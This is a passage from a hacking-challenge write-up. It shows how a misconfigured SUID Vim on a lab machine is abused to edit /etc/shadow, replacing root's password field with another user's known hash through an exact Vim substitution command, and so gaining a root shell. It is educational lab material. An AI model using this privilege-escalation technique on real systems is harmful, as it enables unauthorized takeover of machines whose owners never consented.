And there you have it: the complicated way to create a new user in a Linux system. That's why we have utilities such as useradd, to save us the trouble. That is what computers are for right? The creation of programs/softwares that will make your life easier, even if the purpose of such program is to configure the computer itself. Very meta. Anyway, having read all of that, hopefully you can now see how /etc/shadow is pretty valuable to us here. Primarily because this file is referenced when a user authenticates to the system, meaning that the password stored in this file is the one that will be associated to a user when they log in. Secondarily because we can then easily change a user's password through this file since we have SUID Vim. Usually you would change a password using the passwd utility, which will usually require a minimum of a sudo privilege to be executed. We don't have any privileges of the sort with user tomcat9, but that doesn't really matter since we can just simulate what passwd does by using SUID Vim to change the root user password into whatever we want through /etc/shadow.
Believe it or not, all of that we did just now was simply enumeration. Gathering information from the system. Now that we have acquired some good and juicy data, and even abused the poorly configured SUID permission in Vim (a mini exploit, one might call it) to get user kay's password, let us jump into the final step, the final 'exploit', the privilege escalation that will take us to root. We will use Vim to edit /etc/shadow and change the password for the root user. We can then login as said user and get our root shell. We could've done this in a few different ways: setting root password to nothing, getting the SHA512 hash for a password of our choosing together with a specific salt value (you can try to generate this string by changing the password for your own user in your Linux and checking what is the password hash string for said user in /etc/shadow to easily replicate it in the target machine), or adding an already known password to the password field in the root entry for the file. I decided to go with the last method, as we already had the password for user kay. Instead of generating a new password hash with a salt, which would be a little more troublesome, just copying the password field for the user seemed like a better option. Of course, now I realize that setting no password was the easiest way to go, but to be completely honest, I didn't even consider that at the time I was doing the challenge. Oh, well.
The process to get the root shell was pretty simple, even considering the trouble my reverse shell was giving me to properly be able to use Vim. I opened the file /etc/shadow using Vim, as I have shown before in this post. I then went to the end of the file and copied kay's password hash. Vim has a very useful command that can be used to substitute one string for another in a file. This command can be used when in control mode, and all you have to do is type :s together with the command arguments once you are in that mode. To give an example, :s/mossoctopus/new-string/ would search for the first instance of the string mossoctopus in the file and switch it to new-string. We only have one root user in the system, meaning we will only have one entry in /etc/shadow that starts with root:!:. We want to switch that entry, making it have the format root:[kay's-passwd-hash]:. Therefore, the Vim substitution command will work just fine in this situation, so that was what I did. For this challenge, the exact command I used was the following: :s/root\:\!\:/root:\$6\$ON8Wi9Ow\$Puwzhgbc2chaNEqWFO\/UVH2yJ5zVb3WirwtCxQ5ssr2OEMAuYCrHscUNe\.KPUhH6ND4CYx9WWu449W3mrzVtk\/\:/. Do note that I was required to escape a few characters to get the substitution to work correctly. The image below shows the final result after I executed the command.
Now we have the scenario where, when we try to log in as root, this user's password will be checked against /etc/shadow, and the password that is in that file is one that we already know. All we need to do is enter this password when prompted, and voilá. That is what I did and the images below show it.
 And there it is. Mission accomplished, two different ways. If you aren't sufficiently annoyed by my constant shameless plugs to my own content, do be sure to check out my other post on this hacking challenge, to find out other ways you might be able to get to root on this machine. This was a very fun experience, I learned a lot, and I hope I did good by the challenge creator by exploring all possibilities for this challenge! I hope you had fun reading my posts, even if they are huge, and I hope you will show up for future posts, to learn a little bit more about hacking together with me. With all that being said, I finally bid you farewell, as I am exhausted from this post after days of writing it. So, that is all folks. Thanks for dropping by and goodbye.
Oh! I almost forgot to say this (silly me)! Before I leave, I must tell you to please check out my other post talking about an alternative method to beat this same challenge! You won't regret it, I promise ;)